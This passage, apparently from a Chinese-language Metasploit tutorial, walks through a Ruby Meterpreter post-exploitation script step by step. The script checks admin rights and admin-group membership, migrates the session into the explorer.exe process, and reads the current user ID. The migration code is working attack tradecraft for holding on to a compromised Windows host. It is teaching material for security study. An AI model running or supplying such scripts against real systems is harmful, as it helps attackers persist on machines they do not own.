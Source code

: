 让我们看看下面的代码：

```
#Admin Check 
print_status("Checking If the Current User is Admin") 
admin_check = is_admin? 
if(admin_check) 
print_good("Current User Is Admin") 
else 
print_error("Current User is Not Admin") 
end 
```

我们只是在前面的代码中检查当前用户是否是管理员。函数`is_admin`返回一个布尔值，在此基础上打印结果：

```
#User Group Check 
user_check = is_in_admin_group? 
if(user_check) 
print_good("Current User is in the Admin Group") 
else 
print_error("Current User is Not in the Admin Group") 
end 
```

在前面的代码中，我们检查用户是否属于管理员组。前一段代码在逻辑上与前一段代码非常相似：

```

#Process Id Of the Explorer.exe Process 
current_pid = session.sys.process.getpid 
print_status("Current PID is #{current_pid}") 
session.sys.process.get_processes().each do |x| 
if x['name'].downcase == "explorer.exe" 
print_good("Explorer.exe Process is Running with PID #{x['pid']}") 
explorer_ppid = x['pid'].to_i 
# Migration to Explorer.exe Process 
session.core.migrate(explorer_ppid) 
current_pid = session.sys.process.getpid 
print_status("Current PID is #{current_pid}") 
end 
end  
```

这里的片段是一段激动人心的代码。我们首先使用`session.sys.process.getpid`查找当前进程 ID，然后使用`session.sys.process.get_processes()`上的循环遍历目标系统上的所有进程。如果发现任何进程名为`explorer.exe`，我们将打印一条消息并将其 ID 存储到`explorer_ppid`变量中。使用`session.core.migrate()`方法，我们传递存储的进程 ID（`explorer.exe`以迁移到`explorer.exe`进程。最后，我们只需再次打印当前进程 ID，以确保迁移是否成功：

```
# Finding the Current User 
print_status("Getting the Current User ID") 
currentuid = session.sys.config.getuid 
print_good("Current Process ID is #{currentuid}") 
```

在前面的代码中，我们使用`sessions.sys.config.getuid`方法简单地查找当前用户的标识符：
